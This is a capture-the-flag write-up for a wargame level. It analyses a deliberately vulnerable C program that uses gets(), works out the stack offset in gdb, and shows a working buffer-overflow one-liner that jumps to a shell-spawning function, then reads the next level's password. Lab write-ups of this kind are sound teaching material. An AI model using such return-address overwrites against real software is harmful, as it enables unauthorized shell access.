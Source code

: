 # Level 1

<h3>source.c</h3>

```console
void run() {
  fwrite("Good... Wait what?\n", 1, 19, stdout);
  system("/bin/sh");
}

void main() {
  char str[64];

  gets(str);
}
```

<h3>Step</h3>

This program is using the function `gets` with is unsafe and vulnerable to `buffer overflow` exploit

We can see that there is a function `run()` which will spawn a shell, but main function never call this function

We needs to find a way to run the call function `run()`

<h3>Exploit</h3>

We will use the vulnerability of `gets` function to overwrite the RET address, so when the function finish, it will jump to the address that we want to

Base on the assembly code, the stack should like something like this

```console
+------------+        -> esp
|  16 bytes  |        -> buffer for esp (0x50 or 80 bytes) each line represent 16 bytes
|  16 bytes  |        -> esp+0x10 start of the str pointer
|  16 bytes  |        
|  16 bytes  |
|  16 bytes  |        -> end of the str pointer (total 64 bytes)
+------------+
|   4 bytes  |        -> ebp
+------------+
|   4 bytes  |        -> RET (EIP)
+------------+
```

Theoretically by writing 64 bytes + 4 bytes (ebp) + 4 bytes (RET) should overwrite the return address

But the position of RET (EIP) might not be directly under the `ebp`, as compiler padding (alignment) can increase the size of the stack

We can see that there is an aligment at the start of the main function

```console
0x08048483 <+3>:  and    esp,0xfffffff0       -> bit alignment
```

Lets use gdb to check on how much bytes we needs to write before we can overwrite the `RET`

```console
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>: push   ebp
   0x08048481 <+1>: mov    ebp,esp
   0x08048483 <+3>: and    esp,0xfffffff0
   0x08048486 <+6>: sub    esp,0x50
   0x08048489 <+9>: lea    eax,[esp+0x10]
   0x0804848d <+13>:  mov    DWORD PTR [esp],eax
   0x08048490 <+16>:  call   0x8048340 <gets@plt>
   0x08048495 <+21>:  leave
   0x08048496 <+22>:  ret
End of assembler dump.
(gdb) break *0x08048495                                                       -> set breakpoint before the return command
Breakpoint 1 at 0x8048495
(gdb) r <<< $(python -c "print 'a'*64")                                       -> print 64 'a' char and run the program
Starting program: /home/user/level1/level1 <<< $(python -c "print 'a'*64")

Breakpoint 1, 0x08048495 in main ()
(gdb) info registers                                                          -> get all the registers information
eax            0xbffff6b0 -1073744208
ecx            0xb7fd28c4 -1208145724
edx            0xbffff6b0 -1073744208
ebx            0xb7fd0ff4 -1208152076
esp            0xbffff6a0 0xbffff6a0
ebp            0xbffff6f8 0xbffff6f8
esi            0x0  0
edi            0x0  0
eip            0x8048495  0x8048495 <main+21>
eflags         0x200286 [ PF SF IF ID ]
cs             0x73 115
ss             0x7b 123
ds             0x7b 123
es             0x7b 123
fs             0x0  0
gs             0x33 51
(gdb) x/24wx $esp
0xbffff6a0: 0xbffff6b0  0x0000002f  0xbffff6fc  0xb7fd0ff4                    -> esp start at 0xbffff6a0
0xbffff6b0: 0x61616161  0x61616161  0x61616161  0x61616161                    -> all the 'a' char (0x61) that we give to the programs
0xbffff6c0: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff6d0: 0x61616161  0x61616161  0x61616161  0x61616161
0xbffff6e0: 0x61616161  0x61616161  0x61616161  0x61616161                    -> the write stops here with 64 * a
0xbffff6f0: 0x08048400  0x00000000  0x00000000  0xb7e454d3                    -> 0xbffff6f0 contains the EBP plus some empty paddings before we reach the RET address
```

As we can see from the stack frame above, 64 * a is not enough to overwrite the return pointer

We need to add the total byte of ebp + the extra padding in order to reach the RET

So we need to write a total of `64 + 12 = 76 char` as an offset before we could overwrite the RET

Now lets find the address of the `run()`

```console
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

Great! We have the address of the `run()`, now we just need to pack everything together and give it to the program

The address need to be written in reverse because of little endian

The `cat -` is needed as we want the spawned shell to stay open and this is the work around

```console
level1@RainFall:~$ (python -c "print 'a' * 76 + '\x44\x84\x04\x08'"; cat - ) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```



